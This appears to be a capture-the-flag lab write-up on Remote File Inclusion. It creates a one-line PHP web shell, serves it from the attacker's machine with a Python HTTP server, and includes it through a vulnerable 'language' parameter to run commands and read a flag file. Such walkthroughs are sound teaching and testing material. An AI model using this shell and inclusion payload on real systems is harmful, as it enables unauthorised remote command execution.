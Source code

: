 # Remote File Inclusion (RFI)

#### Attack the target, gain command execution by exploiting the RFI vulnerability, and then look for the flag under one of the directories in /

**Step 1** - Test for RFI:

* On the suspicious vulnerable URL, include a local URL:
  * `http://127.0.0.1/index.php`

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

* We successfully loaded the index.php again

**Step 2** - Create a custom web shell:

* Shell script:
  * ```bash
    echo '<?php system($_GET["cmd"]); ?>' > shell.php
    ```
* Host the shell:
  * ```bash
    sudo python3 -m http.server LISTENING_PORT
    ```

**Step 3** - Test the web shell and look for the flag:

* Insert the host URL with a command on the vulnerable parameter:
  * {% code overflow="wrap" %}
    ```bash
    http://SERVER_IP/index.php?language=http://OUR_IP:LISTENING_PORT/shell.php&cmd=id
    ```
    {% endcode %}

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

* From the output above, our web shell is working perfectly
* Look for the flag wih `cat ../../../exercise/flag.txt`:

<figure><img src="../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

And we got another flag!
